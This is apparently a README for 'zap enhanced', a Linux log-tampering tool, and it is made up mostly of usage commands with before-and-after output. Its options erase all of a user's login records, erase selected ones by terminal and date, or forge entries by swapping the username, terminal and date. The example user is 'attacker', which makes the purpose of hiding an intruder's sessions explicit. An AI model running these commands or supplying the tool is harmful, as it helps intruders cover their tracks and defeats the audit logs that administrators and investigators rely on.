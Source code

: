# zap the real
**- zap enhanced -**

## Compile
```$ make```

## Features
### Delete login logs
+ Use `-A` option to delete all your logs.
  + ```./zap -A <username> ```

```
./zap -A attacker
```
```
[ last before ]
attacker pts/10                        Sat Apr 10 18:00    gone - no logout
user     pts/9                         Fri Apr  9 18:00    gone - no logout
attacker pts/8                         Thu Apr  8 18:00    gone - no logout
attacker pts/7                         Wed Apr  7 18:00    gone - no logout
user2    pts/6                         Tue Apr  6 18:00    gone - no logout
attacker pts/5                         Mon Apr  5 18:00    gone - no logout
user     pts/4                         Sun Apr  4 18:00    gone - no logout
user2    pts/3                         Sat Apr  3 18:00    gone - no logout
user     pts/2                         Fri Apr  2 18:00    gone - no logout
user     pts/1                         Thu Apr  1 18:00    gone - no logout

wtmp begins Thu Apr  1 18:00:00 2021
[ lastlog before ]
Username         Port     From             Latest
root                                       **Never logged in**
...
user             pts/9                     Fri Apr  9 18:00:00 +0000 2021
user2            pts/6                     Tue Apr  6 18:00:00 +0000 2021
attacker         pts/10                    Sat Apr 10 18:00:00 +0000 2021
------------------------------------------------------------
[ run ./zap -A attacker ]
Zap!
------------------------------------------------------------
[ last after ]
user     pts/9                         Fri Apr  9 18:00    gone - no logout
user2    pts/6                         Tue Apr  6 18:00    gone - no logout
user     pts/4                         Sun Apr  4 18:00    gone - no logout
user2    pts/3                         Sat Apr  3 18:00    gone - no logout
user     pts/2                         Fri Apr  2 18:00    gone - no logout
user     pts/1                         Thu Apr  1 18:00    gone - no logout

wtmp begins Thu Apr  1 18:00:00 2021
[ lastlog after ]
Username         Port     From             Latest
root                                       **Never logged in**
...
user             pts/9                     Fri Apr  9 18:00:00 +0000 2021
user2            pts/6                     Tue Apr  6 18:00:00 +0000 2021
attacker                                   **Never logged in**
```

### Delete logs with filter
+ Use `-a` option to use filtered log deletion.
+ Use `-t` to specify the terminal(line) name.
+ Use `-d` to specify the date. (format: `mmddyy`)
  + ```./zap -a <username> -t <tty001> -d <mmddyy>```

```
./zap -a attacker -t pts/5 -d 040521
```
```
------------------------------------------------------------
[ last before ]
attacker pts/10                        Sat Apr 10 18:00    gone - no logout
user     pts/9                         Fri Apr  9 18:00    gone - no logout
attacker pts/8                         Thu Apr  8 18:00    gone - no logout
attacker pts/7                         Wed Apr  7 18:00    gone - no logout
user2    pts/6                         Tue Apr  6 18:00    gone - no logout
attacker pts/5                         Mon Apr  5 18:00    gone - no logout
user     pts/4                         Sun Apr  4 18:00    gone - no logout
user2    pts/3                         Sat Apr  3 18:00    gone - no logout
user     pts/2                         Fri Apr  2 18:00    gone - no logout
user     pts/1                         Thu Apr  1 18:00    gone - no logout

wtmp begins Thu Apr  1 18:00:00 2021
[ lastlog before ]
Username         Port     From             Latest
root                                       **Never logged in**
...
user             pts/9                     Fri Apr  9 18:00:00 +0000 2021
user2            pts/6                     Tue Apr  6 18:00:00 +0000 2021
attacker         pts/10                    Sat Apr 10 18:00:00 +0000 2021
------------------------------------------------------------
[ run ./zap -a attacker -t pts/5 -d 040521 ]
Zap!
------------------------------------------------------------
[ last after ]
attacker pts/10                        Sat Apr 10 18:00    gone - no logout
user     pts/9                         Fri Apr  9 18:00    gone - no logout
attacker pts/8                         Thu Apr  8 18:00    gone - no logout
attacker pts/7                         Wed Apr  7 18:00    gone - no logout
user2    pts/6                         Tue Apr  6 18:00    gone - no logout
user     pts/4                         Sun Apr  4 18:00    gone - no logout
user2    pts/3                         Sat Apr  3 18:00    gone - no logout
user     pts/2                         Fri Apr  2 18:00    gone - no logout
user     pts/1                         Thu Apr  1 18:00    gone - no logout

wtmp begins Thu Apr  1 18:00:00 2021
[ lastlog after ]
Username         Port     From             Latest
root                                       **Never logged in**
...
user             pts/9                     Fri Apr  9 18:00:00 +0000 2021
user2            pts/6                     Tue Apr  6 18:00:00 +0000 2021
attacker         pts/10                    Sat Apr 10 18:00:00 +0000 2021
------------------------------------------------------------
```

### Modify your login logs
+ Use `-R` option to modify your login logs.
  + The first parameter will be a target account 
  + The second parameter will be a account name to replace.
+ Use `-t` to specify the terminal(line) name and replace it.
+ Use `-d` to specify the date and replace it. (format: `mmddyy`)
  + ```./zap -a <targetname> <replacename> -t <tty001> <tty002> -d <mmddyy> <mmddyy>```

```
./zap -R attacker user -t pts/10 supertty -d 041021 040221
```
```
------------------------------------------------------------
[ last before ]
attacker pts/10                        Sat Apr 10 18:00    gone - no logout
user     pts/9                         Fri Apr  9 18:00    gone - no logout
attacker pts/8                         Thu Apr  8 18:00    gone - no logout
attacker pts/7                         Wed Apr  7 18:00    gone - no logout
user2    pts/6                         Tue Apr  6 18:00    gone - no logout
attacker pts/5                         Mon Apr  5 18:00    gone - no logout
user     pts/4                         Sun Apr  4 18:00    gone - no logout
user2    pts/3                         Sat Apr  3 18:00    gone - no logout
user     pts/2                         Fri Apr  2 18:00    gone - no logout
user     pts/1                         Thu Apr  1 18:00    gone - no logout

wtmp begins Thu Apr  1 18:00:00 2021
[ lastlog before ]
Username         Port     From             Latest
root                                       **Never logged in**
...
user             pts/9                     Fri Apr  9 18:00:00 +0000 2021
user2            pts/6                     Tue Apr  6 18:00:00 +0000 2021
attacker         pts/10                    Sat Apr 10 18:00:00 +0000 2021
------------------------------------------------------------
[ run ./zap -R attacker user -t pts/10 supertty -d 041021 040221 ]
Zap!
------------------------------------------------------------
[ last after ]
user     pts/9                         Fri Apr  9 18:00    gone - no logout
attacker pts/8                         Thu Apr  8 18:00    gone - no logout
attacker pts/7                         Wed Apr  7 18:00    gone - no logout
user2    pts/6                         Tue Apr  6 18:00    gone - no logout
attacker pts/5                         Mon Apr  5 18:00    gone - no logout
user     pts/4                         Sun Apr  4 18:00    gone - no logout
user2    pts/3                         Sat Apr  3 18:00    gone - no logout
user     supertty                      Fri Apr  2 18:00    gone - no logout
user     pts/2                         Fri Apr  2 18:00    gone - no logout
user     pts/1                         Thu Apr  1 18:00    gone - no logout

wtmp begins Thu Apr  1 18:00:00 2021
[ lastlog after ]
Username         Port     From             Latest
root                                       **Never logged in**
...
user             pts/9                     Fri Apr  9 18:00:00 +0000 2021
user2            pts/6                     Tue Apr  6 18:00:00 +0000 2021
attacker         pts/8                     Thu Apr  8 18:00:00 +0000 2021
```

### Test it with docker
+ Test script provided.
  + ```./test.sh <options>```
+ Fix ./test/test.exp to customize initial login logs.

```
./test.sh -R attacker user -t pts/10 supertty -d 041021 040221
```
